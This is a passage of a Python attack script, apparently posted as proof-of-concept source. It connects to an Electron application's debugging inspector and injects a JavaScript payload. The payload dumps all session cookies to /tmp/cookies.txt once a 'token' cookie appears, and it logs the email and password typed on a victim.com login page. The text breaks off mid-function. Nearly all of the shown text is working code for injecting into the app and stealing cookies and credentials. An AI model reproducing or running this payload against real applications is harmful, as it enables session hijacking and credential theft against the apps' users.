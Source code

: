 ```python
import asyncio
import websockets
import json
import requests
import os
import psutil
from time import sleep

INSPECT_URL = None
CONT = 0
CONTEXT_ID = None
NAME = None
UNIQUE_ID = None

JS_PAYLOADS = """
var { webContents } = require('electron');
var fs = require('fs');

var wc = webContents.getAllWebContents()[0]


function writeToFile(filePath, content) {
    const data = typeof content === 'string' ? content : JSON.stringify(content, null, 2);

    fs.writeFile(filePath, data, (err) => {
        if (err) {
            console.error(`Error writing to file ${filePath}:`, err);
        } else {
            console.log(`File written successfully at ${filePath}`);
        }
    });
}

function get_cookies() {
    intervalIdCookies = setInterval(() => {
        console.log("Checking cookies...");
        wc.session.cookies.get({})
        .then((cookies) => {
            tokenCookie = cookies.find(cookie => cookie.name === "token");
            if (tokenCookie){
                writeToFile("/tmp/cookies.txt", cookies);
                clearInterval(intervalIdCookies);
                wc.executeJavaScript(`alert("Cookies stolen and written to /tmp/cookies.txt")`);
            }
        })
    }, 1000);
}

function get_creds() {
    in_location = false;
    intervalIdCreds = setInterval(() => {
        if (wc.mainFrame.url.includes("https://www.victim.com/account/login")) {
            in_location = true;
            console.log("Injecting creds logger...");
            wc.executeJavaScript(`
                (function() {
                    email = document.getElementById('login_email_id');
                    password = document.getElementById('login_password_id');
                    if (password && email) {
                        return email.value+":"+password.value;
                    }
                })();
            `).then(result => {
```